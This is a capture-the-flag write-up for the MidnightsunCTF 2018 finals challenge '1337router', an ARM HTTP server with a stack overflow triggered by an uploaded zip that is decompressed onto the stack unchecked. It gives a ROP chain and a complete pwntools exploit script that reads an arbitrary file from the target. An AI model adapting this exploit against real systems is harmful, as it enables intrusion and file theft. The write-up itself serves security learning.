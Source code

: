 ```yaml
---
layout: post
category: Pwn
title: MidnightsunCTF finals 2018 1337router
tags: 
    - kowu
---
```


1337router was an arm executable, aslr disabled, implementing an HTTP server. The vulnerability was that we could upload a zip file (wich contained a https.conf). The zip got deflated afterwards. The zip file had a size limitation of 512 bytes. Of course the deflated size was not checked and it got deflated on the stack. Its time for ROPgadget.


I used a function of the executable to help me in reading any file. It was meant to read a html file and send it back as a HTTP response. It had two parameters. Buffer (in r1) and a path to the file (in r0). As there was no aslr buffer could just point to a static position. r0 was a little bit more difficult as the stack had randomization. However gdb told me that r4 pointed into the stack at a controllable position, so lets just move r4 into r0. We end up with a simple ropchain.

```
0x849ec pop{r1,sp};
0x691ec mov r0, r4; pop {r4, r5, r6, r7, r8, pc};
0x10934 sendresponse(buf, filepath);
```

the final dirty code.

```python
from pwn import *
import zipfile

r = remote("34.254.34.57", 5555)


def buildreq(content):
    return "POST /page?=conf HTTP/1.1\r\n" + \
           "Host: 34.254.34.57:5555\r\n" + \
           "Connection: keep-alive\r\n" + \
           "Content-Length: " + str(191 + len(content)) + "\r\n" + \
           "Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOVOtoTifyI9clR75\r\n" + \
           "User-Agent: Mozilla/5.0\r\n" + \
           "Accept: text/html\r\n\r\n" + \
           "------WebKitFormBoundaryOVOtoTifyI9clR75\r\n" + \
           "Content-Disposition: form-data; name=\"config\"; filename=\"config.zip\"\r\n" + \
           "Content-Type: application/zip\r\n\r\n" + \
           content + \
           "------WebKitFormBoundaryOVOtoTifyI9clR75--\r\n\r\n"


def sploit():
    fname = "flag"
    with zipfile.ZipFile("file.zip", "w", compression=zipfile.ZIP_DEFLATED) as zip:
        zip.writestr(
            "httpd.conf", "A" * 524 + struct.pack(
            "<IIIIIIIII", 0x849ec, 0xaef4c, 0x691ec, 0, 0, 0, 0, 0, 0x10934) + "B" * 8 + fname + '\x00')
    with open("file.zip", "rb") as f:
        content = f.read()
    r.send(buildreq(content))
    r.interactive()


if __name__ == '__main__':
    sploit()

```
